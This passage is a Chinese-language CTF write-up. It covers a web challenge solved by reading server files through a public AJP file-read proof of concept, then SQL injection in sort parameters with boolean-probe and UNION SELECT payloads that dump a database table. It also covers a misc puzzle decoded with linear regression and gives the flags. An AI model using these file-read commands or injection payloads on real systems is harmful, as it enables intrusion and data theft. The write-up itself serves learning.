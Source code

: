 使用[公开的poc](https://github.com/hypn0s/AJPy)读一下配置文件，之后将class反编译获得java源文件（官方poc精简了一些内容 不过大差不差）

```
python poc.py -p 31811 -f "/WEB-INF/web.xml" 127.0.0.1
python poc.py -p 31811 -f "/WEB-INF/classes/com/samsung/sctf/MainController.class" 127.0.0.1
python poc.py -p 31811 -f "/WEB-INF/classes/com/samsung/sctf/gochaMapper.class" 127.0.0.1
python poc.py -p 31811 -f "/WEB-INF/demo/WEB-INF/classes/mapper/gochaMapper.xml" 127.0.0.1
```

/WEB-INF/classes/mapper/gochaMapper.xml是这样的

![image-20210904163606221](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210904163606221.png)

这里的sortName和sortFlag直接拼接进sql语句中没有过滤，尝试sqli

```
sortName=(case%20when%20(select%20true)%20then%20BID%20else%20%270%27%20end)&sortFlag=desc
sortName=(case when (select true) then poke_name else '0' end)&sortFlag=asc
```

```
sortName=(case%20when%20(select%20false)%20then%20BID%20else%20%270%27%20end)&sortFlag=desc
sortName=(case when (select false) then poke_name else '0' end)&sortFlag=asc
```

```
sortName=random())dummy UNION SELECT'A','B','C','D','D','F',now(),'G','H','I' FROM(SELECT 1
sortFlag=NULL
```

```
sortName=random())dummy UNION SELECT DD."index",DD."name",DD.first_attribute,DD.second_attribute,'XX','XX',now(),'XX','XX','XX' FROM( SELECT * from poke_info
sortFlag=""
```

`{G0tcH4_Gh0sT_c4t_iS_L3G3ND4Ry_P0k3}`

## Misc/meLorean

> There was a crazy Data Scientist who rectilinearly claimed mathematics can make miracles.
> He left a note and then disappeared. Help to decode it.

给出了一个这样的文件，充满了二维坐标

![image-20210904143738246](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210904143738246.png)

一个线性回归的相关问题，需要用到python中的sklearn.linear_model进行数据处理

```python
import ast
from sklearn.linear_model import LinearRegression
r = LinearRegression()
flag = []

with open("dataset.txt", "r") as f:
    for l in f:
        l = ast.literal_eval(l)
        X = [[i[0]] for i in l]
        y = [i[1] for i in l]
        r.fit(X, y)
        flag.append(chr(int(round(r.coef_[0]))))

print("".join(flag))
```

